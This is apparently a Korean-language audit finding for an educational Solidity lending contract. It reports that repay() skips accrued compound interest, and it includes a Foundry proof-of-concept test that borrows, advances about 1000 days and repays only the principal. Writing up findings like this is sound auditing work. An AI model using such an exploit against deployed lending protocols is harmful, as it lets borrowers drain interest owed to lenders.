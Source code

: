 # 1. Insufficient borrow interests
## Description
- `DreamAcademyLending.sol:repay(L: 128-141)`
`repay`함수는 자신이 빌렸던 유동성에 대해 되값는 함수입니다. Lending 컨트랙트는 유동성을 빌리면 블록시간이 흘렀을때 하루당 0.1%의 복리이자가 붙습니다. 하지만 해당 컨트랙트에서는 유동성을 빌린후 해당 컨트랙트에서 어떠한 함수도 호출하지 않으면, 빌린 자산에 대해 업데이트가 이루어지지않아 이자를 내지않고도 대출에 대한 상환이 가능합니다.
## Impact
### high
해당 함수에서는 빌린 자산에 대한 이자반영이 이루어지지않아 시간이 아무리 흘러도 자신이 빌린 비용만큼만 지불하면, 대출이 모두 상환된 것으로 처리됩니다. 
```solidity
    function test_exploit() external {
        supplyUSDCDepositUser1();
        supplyEtherDepositUser2();

        dreamOracle.setPrice(address(0x0), 4000 ether);

        vm.startPrank(user2);
        {
            (bool success,) = address(lending).call(
                abi.encodeWithSelector(DreamAcademyLending.borrow.selector, address(usdc), 1000 ether)
            );
            assertTrue(success);
            (success,) = address(lending).call(
                abi.encodeWithSelector(DreamAcademyLending.borrow.selector, address(usdc), 1000 ether)
            );
            assertTrue(success);

            assertTrue(usdc.balanceOf(user2) == 2000 ether);

            usdc.approve(address(lending), type(uint256).max);

            vm.roll(block.number + (86400 * 1000 / 12));

            (success,) = address(lending).call(
                abi.encodeWithSelector(DreamAcademyLending.repay.selector, address(usdc), 2000 ether)
            );
            assertTrue(success);
        }
        vm.stopPrank();
    }
```
## Recommendation
repay, borrow, liquidate, deposit과 같이 자산이 이동하는 경우 update 함수를 꾸준히 호출해주는것이 바람직합니다.